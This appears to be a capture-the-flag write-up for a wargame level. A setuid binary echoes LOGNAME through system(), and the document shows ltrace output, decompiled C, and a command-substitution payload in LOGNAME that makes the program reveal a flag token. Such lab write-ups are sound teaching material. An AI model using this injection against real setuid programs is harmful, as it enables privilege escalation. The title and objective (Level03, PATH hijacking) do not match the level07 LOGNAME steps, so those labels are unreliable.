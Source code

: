 # Level03 Documentation

## Objective
Exploit a vulnerable binary to retrieve the token for `level04` by manipulating the `PATH` environment variable.

---

## Approach & Tools
- **Technique**: Path hijacking and environment variable manipulation.
- **Commands**: `ltrace`
- **Tools**: [ghidra](https://ghidra-sre.org/) (optional).

## Step-by-Step Solution
once we log into level07 account we find a binary named ```level07```.
```bash
ls -la /home/user/level07/
```
#### Output:
```bash
-rwsr-sr-x 1 flag07  level07 8627 Mar  5  2016 level07
```

### 1. Analyze the Binary
The `level07` binary prints "level07" and dont take command line arguments nor any does it takes any input. we can use [ltrace](https://www.man7.org/linux/man-pages/man1/ltrace.1.html). to trace system calls in ```level03``.
```bash
ltrace ./level07
```

#### output
```bash
__libc_start_main(0x8048514, 1, 0xbffffd14, 0x80485b0, 0x8048620 <unfinished ...>
getegid()                                                             = 2007
geteuid()                                                             = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                   = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                   = 0
getenv("LOGNAME")                                                     = "level07"
asprintf(0xbffffc64, 0x8048688, 0xbfffff4f, 0xb7e5ee55, 0xb7fed280)   = 18
system("/bin/echo level07 "level07
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                = 0
+++ exited (status 0) +++
```

To better visualize this code we can use a decompile that can reconstruct this code to more higher level code, such as C / C++. i used ghidra

The decompiled code from Ghidra is as follows :
```c
int main(int argc,char **argv,char **envp)

{
  char *pcVar1;
  int iVar2;
  char *buffer;
  gid_t gid;
  uid_t uid;
  char *local_1c;
  __gid_t local_18;
  __uid_t local_14;
  
  local_18 = getegid();
  local_14 = geteuid();
  setresgid(local_18,local_18,local_18);
  setresuid(local_14,local_14,local_14);
  local_1c = (char *)0x0;
  pcVar1 = getenv("LOGNAME");
  asprintf(&local_1c,"/bin/echo %s ",pcVar1);
  iVar2 = system(local_1c);
  return iVar2;
}
```
### 4. Exploit via LOGNAME

Inject getflag into the LOGNAME variable:
```bash
export LOGNAME='$(getflag)'
./level07
```
#### Output:
```bash
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

### Key Takeaways

* Environment Variables Are Attack Vectors:Programs using getenv() without validation can be exploited.

* Command Injection: Always sanitize variables before passing them to system().

* No Decompilation Needed:Simple observation of binary behavior "getenv("LOGNAME")" revealed the exploit path.